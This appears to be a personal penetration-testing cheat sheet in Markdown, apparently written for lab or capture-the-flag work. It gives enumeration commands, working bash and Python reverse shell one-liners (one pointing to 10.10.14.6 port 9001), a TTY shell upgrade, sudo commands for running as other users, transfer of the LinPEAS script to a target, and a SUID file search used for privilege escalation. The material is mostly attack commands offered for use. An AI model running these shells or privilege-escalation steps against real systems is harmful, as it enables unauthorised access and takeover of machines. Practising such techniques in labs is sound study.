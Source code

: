 ```sudo -l```

```whoami```

```groups```

### Bash based reverse shell

```
bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'
```

### Python based reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' &
```


### Upgrade Shell to TTY

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


### Run command as specific user
```
sudo -u USER command
```

### Start shell as specific user
```
sudo -u USER bash -i
```
# Searching through files

## Search specific word

```grep -n "WORD" /path/to/file(s)```

-n lists line number

-r - recursively check all files matching path

-B # - Prints this many lines before

-A # - Prints this many lines after

## Search for strings in file (or filesystem)

```
sudo strings /path/to/file
```


## LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
scp /home/mike/linpeas.sh USER@IP:/home/USER
```
```
./linpeas.sh
```

## Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```
